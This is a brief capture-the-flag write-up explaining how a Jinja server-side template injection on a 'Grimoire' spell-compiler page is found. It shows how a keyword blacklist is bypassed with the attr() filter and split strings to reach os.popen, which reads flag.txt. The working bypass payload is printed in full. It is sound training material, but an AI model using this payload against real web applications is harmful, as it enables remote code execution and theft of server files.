






## [CSIT] Grimoire  



We are given a simple webpage where we are allowed to compile spell formulas.  



If we enter a payload like `{{7*7}}` as the spell formula, we immediately notice an SSTI vuln.  



However, if we try a more complex chain like `{{self.__init__.__globals__}}`, the compilation fails.  

The error message suggests that our input is being checked against a blacklist.  



We can try obfuscating our payload by dynamically accessing attributes using the `| attr()` filter, which will succeed in bypassing the filter.  



From there, we can get RCE and find the flag in the parent directory.  

```python
self.__init__ | attr('__glob''als__') | attr('__getitem__')('__buil''tins__') | attr('__getitem__')('__im''port__')('os') | attr('popen')('cat  ../flag.txt') | attr('read')()
```



Flag: `Cyberthon{ssti_jinja_fun}`